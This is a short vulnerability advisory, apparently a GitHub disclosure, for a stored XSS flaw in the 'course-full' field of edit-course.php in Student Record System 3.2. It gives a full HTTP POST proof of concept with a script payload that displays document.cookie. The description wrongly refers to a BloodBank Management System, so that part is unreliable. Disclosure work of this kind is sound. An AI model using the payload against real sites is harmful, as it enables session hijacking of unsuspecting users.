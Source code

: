 ## Manager System XSS From Student Record Management System

**Affected Project**: Student Record System 3.2

**Official Website**: https://phpgurukul.com/student-record-system-php/

## Vulnerability Information
- **Vulnerability Type**: Stored Cross-Site Scripting (XSS)
- **Severity**: HIGH

**Related Code File**: edit-course.php

**Injection Parametre**: course-full

## Vulnerability Description

A Stored Cross-Site Scripting (XSS) vulnerability was discovered in the blood request functionality of the BloodBank Management System. This flaw occurs because the `course-full` parameter is not properly sanitized before being rendered on the web page. This allows an attacker to inject malicious JavaScript code, which will be executed when the page is accessed.
Successful exploitation can lead to session hijacking, redirection to phishing sites, or unauthorized actions on behalf of the victim. Additionally, this could be exploited for social engineering attacks or to spread malware.

## Proof of Content(POC)

Below is what the `edit-course.php` POST request looks like:

```
POST /studentrecordms/edit-course.php?cid=11 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 128
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/studentrecordms/edit-course.php?cid=11
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=Wb351y8noRVw6yLkJ5Yxv7MObe2EAVqg0zKQljaNWpmXBZD4qP3gr91X6OkJ; PHPSESSID=e048o5plsma7fs12erv662c5fg; PHPSESSID=3ravfm034ns8lmfhr96bfmrdq8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

course-short=HELLO&course-full=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&udate=29-10-2024&submit=Update+Course
```

When this request is executed, the following script will be injected into the page:
    ```"><script>alert(document.cookie)</script>```
This will trigger a JavaScript alert as a demonstration of the vulnerability.


![](https://github.com/Speecttre/Asset/blob/main/StudentRecordEDITCOURSESTOREDXSS.png)

- SourceCode

![](https://github.com/Speecttre/Asset/blob/main/StudentRecord-EditCourseSourceCode.png)